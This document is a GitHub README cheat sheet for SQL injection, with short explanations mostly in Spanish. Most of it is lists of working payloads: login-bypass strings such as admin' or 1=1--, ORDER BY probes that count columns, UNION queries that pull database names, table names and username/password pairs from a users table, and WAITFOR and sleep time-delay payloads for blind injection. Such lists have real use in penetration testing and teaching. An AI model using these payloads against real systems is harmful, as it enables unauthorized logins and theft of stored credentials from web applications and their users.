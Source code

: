 # SQLi
This is how SQL Injection works:
- [LoginByPass](https://github.com/erik-451/SQLi/blob/main/LoginByPass.md)
- [Payloads](https://github.com/erik-451/SQLi/blob/main/payloads.md)
- [PortSwigger CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![SQLi](https://user-images.githubusercontent.com/47476901/124319507-3bbe1600-db72-11eb-976f-872635141ea9.PNG)

### 1- Login inyection
Estos payloads hacen referencia inyeciones de consultas de sql, tambien se pueden usar en los logins para conseguir el usuario de administrador generalmente.
```bash
root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*

or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1 #
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*

1' or '1'='1

root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin' or 1=1-- -
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
------------------------------------------
### 2- Determinar el número de columnas necesarias en un ataque UNION de inyección SQL
```sql
' ORDER BY 1--
```
Podemos ir testeando este payload para determinar cuantas columnas necesitamos. Ej: si con el payload del numero 3 significa que
la posición ORDER BY número 3 está fuera del rango del número de elementos en la lista de selección.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc ...
```

------------------------------------------
### 3- SQL injection UNION attacks
```sql
SELECT A, B FROM table1 UNION SELECT C, D FROM table2
```
Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen los valores de las columnas A y B en la tabla1 y las columnas C y D en la tabla2.
```sql
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 

' UNION SELECT username, password FROM users--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc ...
```
------------------------------------------
### 4- Time delays
Los Time Delays crean un tiempo de espera al recibir la peticion cuando se ejecutan.

Delay de 5 segundos:
```sql
')) or sleep(5)='
```
Estos payloads se usan para testear si existe una inyeccion SQL dado que no suponen un riesgo para la base de datos.

```sql
')) or sleep(5)='
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

